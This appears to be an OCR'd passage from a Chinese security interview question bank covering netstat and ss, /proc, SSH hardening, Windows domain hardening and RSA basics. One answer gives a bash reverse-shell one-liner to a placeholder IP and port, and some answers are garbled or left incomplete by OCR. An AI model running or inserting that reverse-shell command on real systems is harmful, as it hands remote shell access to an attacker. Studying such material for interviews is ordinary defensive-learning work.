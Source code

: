     **查看当前端⼝连接的命令有哪些？netstat 和 ss 命令的区别和优缺点**

    ```
    netstat -antp` `ss -l
    ```

    ss 的优势在于它能够显示更多更详细的有关 TCP 和连接状态的信息，⽽且⽐ netstat 更快速更⾼效。

    **反弹 shell 的常⽤命令？⼀般常反弹哪⼀种 shell？为什么？**

    ```
    bash -i>&/dev/tcp/x.x.x.x/4444 0>&1
    ```

    **通过 Linux 系统的 /proc ⽬录 ，能够获取到哪些信息，这些信息可以在安全上有哪些应⽤？**

    ```
    ls /proc
    ```

    系统信息，硬件信息，内核版本，加载的模块，进程

    **linux 系统中，检测哪些配置⽂件的配置项，能够提升 SSH 的安全性。**

    `/etc/ssh/sshd___config` iptables 配置

    如何⼀条命令查看⽂件内容最后⼀百⾏

    ```
    tail -n 100 filename
    ```

    **Windows**

    如何加固⼀个域环境下的 Windows 桌⾯⼯作环境？请给出你的思路。

    ### 5、密码学

    **AES／DES 的具体⼯作步骤**

    **RSA 算法**

    加密:

    密⽂＝明⽂ ^EmodN

    RSA 加密是对明⽂的 E 次⽅后除以 N 后求余数的过程

    公钥＝(E,N)

    解密:

    明⽂＝密⽂ ^DmodN 私钥＝(D,N)

    三个参数 n,e1,e2

    n 是两个⼤质数 p,q 的积

    **分组密码的加密模式**

    **如何⽣成⼀个安全的随机数？**

    引⽤之前⼀个学⻓的答案，可以通过⼀些物理系统⽣成随机数，如电压的波动、磁盘磁头读 / 写时的寻道时间、空中电磁波的噪声等。
